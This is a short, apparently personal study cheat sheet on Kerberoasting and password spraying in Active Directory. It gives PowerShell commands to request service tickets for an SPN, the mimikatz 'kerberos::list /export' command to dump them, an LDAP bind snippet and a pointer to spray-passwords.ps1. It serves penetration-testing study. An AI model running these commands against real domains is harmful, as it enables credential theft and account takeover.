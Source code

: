 ## Summary

when a user wants to access resources hosted by SPN a service ticket is requested from a the client to the domain controller, 

this is then decrypted and validated by application server, no checks are performed on weather the user has permission when requesting service ticket from domain controller, these checks are performed as second check only when connecting to service itself. 

so if we know SPN we can request service ticket.


- Adding module 

```powershell
Add-Type -AssemblyName System.IdentityModel
```


- Requesting service ticket for given SPN

```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList '<SPN>'
```

- get list of cached kerberos tickets

```powershell
klist
```

- mimikatz download service ticket

```cmd
kerberos::list /export
```

[Ref](https://hackersinterview.com/oscp/oscp-cheatsheet-windows-file-transfer-techniques/)



### Checking domain account policy

`net accounts`


### Tools

#### Manual search

```powershell
New-Object System.DirectoryServices.DirectoryEntry("LDAP://PDC/DC,DC", "<USERNAME>", "<PASSWORD>")
```

#### Attack

`spray-passwords.ps1`